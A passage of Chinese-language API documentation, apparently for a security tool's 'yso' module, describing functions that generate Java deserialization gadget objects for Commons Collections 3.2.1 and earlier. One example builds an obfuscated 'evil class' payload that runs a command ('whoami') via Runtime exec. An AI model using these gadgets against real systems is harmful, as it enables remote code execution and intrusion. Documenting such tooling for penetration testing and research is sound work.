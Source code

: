 
#### 定义

`GetCommonsCollections8JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK1JavaObject

#### 详细描述
GetCommonsCollectionsK1JavaObject 基于Commons Collections &lt;=3.2.1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollectionsK1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollectionsK1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
